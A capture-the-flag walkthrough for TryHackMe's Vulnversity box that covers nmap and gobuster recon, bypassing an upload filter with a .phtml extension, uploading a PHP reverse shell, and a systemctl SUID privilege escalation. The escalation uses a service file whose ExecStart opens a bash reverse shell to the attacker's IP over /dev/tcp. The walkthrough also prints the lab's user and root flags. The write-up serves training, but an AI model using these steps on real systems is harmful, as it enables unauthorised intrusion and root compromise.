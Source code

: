 # **TryHackMe Vulnversity**
*Walkthrough using Kali Linux by Leonidas Karagkounis*

## **Reconnaissance**
Start by using nmap to scan for ports and services
```
nmap -sV <target_ip> 
```
1. **Scan the box, how many ports are open?**  
```
6
```
2. **What version of the squid proxy is running on the machine?** 
```
3.5.12
```
3. **How many ports will nmap scan if the flag -p-400 was used?**
```
400
```
4. **Using the nmap flag -n what will it not resolve?**  
```
DNS
```
5. **What is the most likely operating system this machine is running?**
```
Ubuntu
```
6. **What port is the web server running on?** 
```
3333
```

## **Locating directories using Gobuster**
Running gobuster to find hidden directories
```
gobuster dir --url http://<target_ip>:3333 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
1. **What is the directory that has an upload form page?** 
```
/internals/
```

## **Compromise the webserver**
Visit <target_ip>/internal/

You can start uploading files to find the extension that is blocked
1. **Try upload a few file types to the server, what common extension seems to be blocked?**  
```
.php
```

Start FoxyProxy and BurpSuite, upload a file and send the intercept to the intruder. Select Sniper attack and add for payload :
- php
- php3
- php4
- php5
- phtml

Then clear § and add § on the filename="hello.§php§" and start the attack. The only difference is noticed on phtml extension.

2. **Run this attack, what extension is allowed?** 
```
.phtml
```

### **Getting a reverse shell**

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Make a copy as php.reverse-shell.phtml. 

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- Set up a netcat listener with the command :  
```
nc -nlvp 9001
```

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage 
```
http://<target_ip>:3333/internal/uploads/php-reverse-shell.phtml.
```
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Start by typing cat /etc/passwd and it looks like we have one user at the end called bill.

3. **What is the name of the user who manages the webserver?** 
```
bill
```

Type 
```
cd /home/usr/bill
```
 Then 
 ```
 ls -al
 ``` 
 This reveals the user.txt flag. Type 
 ```
 cat user.txt
 ``` 
This should give you the user flag

4. **What is the user flag?** 
```
8bd7992fbe8a6ad22a63361004cfcedb
```

## **Privilege Escalation**
Start by typing 
```
find / -user root -perm /4000 2>/dev/null
```

1. **On the system, search for all SUID files. What file stands out?** 
```
/bin/systemctl
```

### **Getting a root shell**

- On your machine create a file called root.service. The content of the file should be this : 

        [Unit]
        Description=roooooooooot

        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/9001 0>&1'

        [Install]
        WantedBy=multi-user.target


- Start a python http server using the command 
```
python3 -m http.server 8000
```

- On the target machine run the command  
```
find / -type d -maxdepth 2 -writable
``` 
This should reveal all writable directories. Use cd to get into one in our case cd /tmp

- Run the command 
```
wget http://<your_ip>:8000/root.service
```
This should get the root.service file from your machine to the target. 

- Stop the python server and start a listener with 
```
nc -nlvp 9001
```

- Use the command  
```
/bin/systemctl enable /tmp/root.service
```

- Use the command 
```
/bin/systemctl start root
```

- Now you should have a root shell on your listener

### **Geting the root flag**

Navigate into root folder by using 
```
cd /root
``` 
Type 
```
ls -al
``` 
You should see the root.txt flag. Check the content with 
```
cat root.txt
```

2. **Become root and get the last flag (/root/root.txt)**
```
a58ff8579f0a9270368d33a9966c7fd5
```
